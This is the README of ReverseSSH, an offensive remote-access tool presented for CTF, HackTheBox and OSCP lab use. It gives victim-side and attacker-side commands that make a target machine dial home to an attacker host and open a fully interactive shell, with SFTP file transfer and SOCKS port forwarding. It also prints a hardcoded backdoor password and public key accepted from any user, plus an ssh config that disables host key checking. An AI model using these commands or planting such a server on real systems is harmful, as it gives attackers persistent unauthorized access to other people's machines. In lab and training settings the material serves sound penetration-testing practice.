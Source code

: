 # ReverseSSH

**A statically-linked ssh server with a reverse connection feature for simple yet powerful remote access. Most useful during HackTheBox challenges, CTFs or similar.**

Has been developed and was extensively used during OSCP exam preparation.

**[Get the latest Release](https://github.com/Fahrj/reverse-ssh/releases/latest)**

![Showcase](doc/showcase.gif)


## Features

Catching a reverse shell with _netcat_ is cool, sure, but who hasn't accidentally closed a reverse shell with a keyboard interrupt due to muscle memory?
Besides their fragility, such shells are also often missing convenience features such as fully interactive access, TAB-completion or history.

Instead, you can go the way to simply deploy the **lightweight ssh server** (<1.5MB) `reverse-ssh` onto the target, and use additional commodities such as **file transfer** and **port forwarding**!

ReverseSSH tries to bridge the gap between initial foothold on a target and full local privilege escalation.
Its main strengths are the following:

* **Fully interactive shell access**  (check windows caveats below)
* **File transfer via sftp**
* **Local / remote / dynamic port forwarding**
* **Can be used as bind- and reverse-shell**
* Supports **Unix** and **Windows** operating systems

**Windows caveats**

A fully interactive powershell on windows relies on [Windows Pseudo Console ConPTY](https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/) and thus requires at least `Win10 Build 17763`.
On earlier versions you can still get an interactive reverse shell that can't handle virtual terminal codes such as arrow keys or keyboard interrupts.
In such cases you have to append the `cmd` command, i.e. `ssh <OPTIONS> <IP> cmd`.

You can achieve full interactive shell access for older windows versions by dropping `ssh-shellhost.exe` [from OpenSSH for Windows](https://github.com/PowerShell/Win32-OpenSSH/releases/latest) in the same directory as `reverse-ssh` and then use flag `-s ssh-shellhost.exe`.
This will pipe all traffic through `ssh-shellhost.exe`, which mimics a pty and transforms all virtual terminal codes such that windows can understand.


## Requirements

Simply executing the provided binaries only relies on [golang system requirements](https://github.com/golang/go/wiki/MinimumRequirements#operating-systems).

In short:

* **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

Once `reverse-ssh` is running, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```shell
# Fully interactive shell access
ssh -p <RPORT> <RHOST>

# Simple command execution
ssh -p <RPORT> <RHOST> whoami

# Full-fledged file transfers
sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy on port 9050
ssh -p <RPORT> -D 9050 <RHOST>
```

### Simple bind shell scenario

```shell
# Victim
victim$./reverse-ssh

# Attacker (default password: letmeinbrudipls)
attacker$ssh -p 31337 <LHOST>
```

### Simple reverse shell scenario

```shell
# On attacker (get ready to catch the incoming request;
# can be omitted if you already have an ssh daemon running, e.g. OpenSSH)
# NOTE: LPORT must NOT be 8888, as it'll cause a conflict.
attacker$./reverse-ssh -l :<LPORT>

# On victim
victim$./reverse-ssh -p <LPORT> <LHOST>
# or in case of an ssh daemon listening at port 22 with user/pass authentication
victim$./reverse-ssh <USER>@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ssh -p 8888 127.0.0.1
# or with ssh config from below
attacker$ssh target
```

In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.
Dialling home currently is password only, because I didn't feel like baking a private key in there as well yet...

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](id_reverse-ssh) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```shell
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Full usage

```shell
reverseSSH v1.1.0  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [<user>@]<target>

Examples:
  Bind:
        reverse-ssh
        reverse-ssh -v -l :4444
  Reverse:
        reverse-ssh 192.168.0.1
        reverse-ssh kali@192.168.0.1
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -s, Shell to use for incoming connections, e.g. /bin/bash; (default: /bin/bash)
                for windows this can only be used to give a path to 'ssh-shellhost.exe' to
                enhance pre-Windows10 shells (e.g. '-s ssh-shellhost.exe' if in same directory)
        -l, Bind scenario only: listen at this address:port (default: :31337)
        -p, Reverse scenario only: ssh port at home (default: 22)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prepended with
        <user>@ to authenticate as a different user than 'reverse' while dialling home.

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```


## Build instructions

Make sure to install the above requirements such as golang in a matching version and set it up correctly.
Afterwards, you can compile with `make`, which will create static binaries in `bin`.
Use `make compressed` to pack the binaries with upx to further reduce their size.

```shell
make

# or to additionally created binaries packed with upx
make compressed
```

You can also specify a different default shell (`RS_SHELL`), a personalized password (`RS_PASS`) or an authorized key (`RS_PUB`) when compiling:

```shell
ssh-keygen -t ed25519 -f id_reverse-ssh

RS_SHELL="/bin/sh" RS_PASS="secret" RS_PUB="$(cat id_reverse-ssh.pub)" make compressed
```

### Building for different operating systems or architectures

By default, `reverse-ssh` is compiled for your current OS and architecture, as well as for linux and windows in x86 and x64.
To compile for other architectures or another OS you can provide environmental variables which match your target, e.g. for linux/arm64:

```shell
GOARCH=arm64 GOOS=linux make compressed
```

A list of available targets in format `OS/arch` can be obtained via `go tool dist list`.


## Contribute

Is a mind-blowing feature missing? Anything not working as intended?

**Create an issue or pull request!**

